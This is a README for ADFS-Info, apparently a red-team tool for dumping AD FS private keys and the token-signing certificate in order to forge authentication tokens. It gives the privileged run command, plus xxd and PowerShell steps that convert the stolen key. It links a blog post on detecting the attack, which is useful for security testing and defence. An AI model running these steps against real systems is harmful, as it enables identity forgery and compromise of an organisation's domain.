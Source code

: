 # ADFS-Info

I created a small project to get the private keys and token-signing certificate from an AD FS server to create forged tokens.

For more information about this attack, please check my blog post:  
https://thalpius.com/2020/12/28/microsoft-defender-for-identity-adfsdump/

# Usage ADFS-Info
Run the tool on the AD FS server with Domain Admin privileges or with the AD FS service account:  
```cmd
ADFS-Info.exe
```

To convert the private key to the correct binary format on Linux use xxd:  
```bash
xxd -r -p keyinput.bin keyoutput.bin
```

To convert the private key to the correct binary format on Windows use PowerShell:  

```PowerShell
$HexStringfile = "C:\users\thalpius\desktop\keyinput.bin"
$OutputFile = "C:\users\thalpius\desktop\keyoutput.bin"

if ($HexstringFile -ne "") {
  $HexString = Get-Content -readcount 0 -path $HexStringFile
  $HexString = $HexString[0]
  $count = $hexString.length
  $byteCount = $count/2
  $bytes = New-Object byte[] $byteCount
  $byte = $null

  $x = 0
  for ( $i = 0; $i -le $count-1; $i+=2 )
  { 
    $bytes[$x] = [byte]::Parse($hexString.Substring($i,2), [System.Globalization.NumberStyles]::HexNumber)
    $x += 1
  }

  if ($OutputFile -ne "") {
    set-content -encoding byte $OutputFile -value $bytes
  } else {
    write-host "No output file specified"
  }
} else{
  write-host "Error, no input file specified"
}
```

**Note**: Always use the last created private key.

# Screenshot

![Alt text](/Screenshots/ADFSInfo01.jpg?raw=true "ADFS Info")
